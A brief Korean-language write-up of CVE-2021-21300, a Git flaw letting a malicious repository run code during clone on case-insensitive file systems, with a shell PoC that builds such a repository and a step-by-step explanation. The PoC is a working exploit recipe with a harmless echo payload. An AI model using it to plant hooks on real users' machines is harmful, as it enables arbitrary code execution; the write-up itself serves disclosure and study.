

## URL

[git: malicious repositories can execute remote code while cloning](https://www.openwall.com/lists/oss-security/2021/03/09/3)

## Target

- Git(2.14.2.windows.1에서 테스트됨)

## Explain

오픈소스 버전 관리 시스템인 Git에서 원격 저장소를 clone 하는 도중 원격 코드 실행이 가능한 취약점이 발견되어 관련 세부 정보가 공개되었습니다.


취약점의 트리거 조건은 다음과 같습니다.

- 타깃 시스템이 NTFS와 같이 대소문자를 구분하지 않고, 심볼릭 링크를 지원해야 합니다.(Windows 및 macOS의 기본 파일 시스템)

- Git LFS와 같이 clean 혹은 smudge 필터가 전역적으로 구성되어있어야 합니다.

  

악성 저장소를 생성하는 PoC는 다음과 같습니다.

```bash
#!/bin/sh

  git init delayed-checkout &&
  (
  	cd delayed-checkout &&
  	echo "A/post-checkout filter=lfs diff=lfs merge=lfs" \\
  		>.gitattributes &&
  	mkdir A &&
  	printf '#!/bin/sh\\n\\necho PWNED >&2\\n' >A/post-checkout &&
  	chmod +x A/post-checkout &&
  	>A/a &&
  	>A/b &&
  	git add -A &&
  	rm -rf A &&
  	ln -s .git/hooks a &&
  	git add a &&
  	git commit -m initial
  )
```

1. 임의 코드를 실행하는 악성 파일인 `A/post-checkout`이 저장소에 추가된 후 제거되면 Git 캐시에 남습니다. 이후 `./git/hooks`의 심볼릭 링크 `a`를 생성합니다.
   
   - git hooks - 특정 이벤트에 실행되는 스크립트
   
2. 타깃이 대소문자를 구분하지 않는 파일 시스템이라면 해당 저장소를 clone 할 때 `a`와 `A`를 구분하지 못해 `./git/hooks/post-checkout` 파일이 Git 캐시에 저장된 악성파일인 `A/post-checkout`로 대체됩니다.

3. git hooks에 의해 `post-checkout`가 실행되고 `post-checkout`에 작성된 임의 코드가 실행됩니다.

   




## Reference
POC - https://github.com/Maskhe/CVE-2021-21300